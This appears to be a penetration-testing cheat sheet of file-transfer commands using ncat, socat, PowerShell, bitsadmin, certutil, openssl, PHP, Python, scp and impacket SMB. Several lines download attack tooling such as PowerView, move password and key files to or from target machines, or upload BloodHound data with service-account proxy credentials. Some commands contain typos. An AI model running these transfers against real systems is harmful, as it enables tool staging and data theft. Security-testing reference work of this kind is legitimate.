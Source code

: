 # File-Transfers

***ncat***

```shell
nc -nv 192.168.1.129 4444 > file_to_send.txt # the file we will transfer 

nc -lnvp 4444 < file_to_send.txt # download file on the target machine 

```

***socat***

```shell

socat TCP4-LISTEN:1337,fork file:~/home/mastermind/key.txt # the file we will send 

socat - TCP4:192.168.1.129:1337 # download the file 

```

***powershell***

```powershell

New-Object System.Net.WebClient).DownloadFile('http://192.168.1.122:8080/file_to_download.txt',"C:\Users\Public\Downloads\file_to_download.txt")

```

```powershell

Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

```
***bitsadmin***

```powershell

bitsadmin /transfer n http://192.168.1.123/password.txt C:\User\Mastermind\password.txt # download the file

```

```powershell
# Download 
Import-Module bitstransfer;Start-BitsTransfer -Source "http://192.168.1.123/password.txt" -Destination C:\User\Mastermind\password.txt" 

```
```powershell
#upload 

Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql

```
***Certutil***

```
certutil.exe -verifyctl -split -f http://192.168.1.1/file.txt

```

***openssl***

```shell
# create the cert

openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# set up a server 

openssl s_server -quiet -accept 8081 -cert certificate.pem -key key.pem < /file_to_download.txt

# Download the file on target machine 

openssl s_client -connect 127.0.0.1:8080 -quiet > file_to_download.txt
```

***php***

```shell
php -r '$file = file_get_contents("http://10.10.10.12:8080/file_to_download.txt"); file_put_contents("file_to_download.txt",$file);'
```

***python***

```python 
import urlib.request

urllib.request.urlretrieve("http://10.10.10.12:8080/file_to_download.txt", "file_to_download.txt")

```
***ssh***

```shell
scp ~/file_tocopy.txt user@192.182.21.1:~/where_to_copy # to copy file  to the server 

scp user@192.192.1.1:file_to_download.txt ./file_to_download # to copy file  from the server 

```

***SMB***

```shell
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support FileToshare $(pwd) #without passowrd 

```
```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -user mastermind -password mastermind FileToshare $(pwd) # with password 

```
```shell
smbclinet //127.0.0.1/FileToshare -U "mastermind" # connect to smb and get the files 

PS C:\> net use Q: \\10.01.01.1\FileToshare # on windows 
PS C:\> pushd \\10.10.10.132\FileToshare #on windows 

```
***web servers***

```shell
php -S 0.0.0.0:1337

```
```shell
python3 -m http.server 8080

```
```shell
python -m SimpleHTTPServer 8080 #python2

```
```shell
ruby -run -ehttpd . -p8080
```














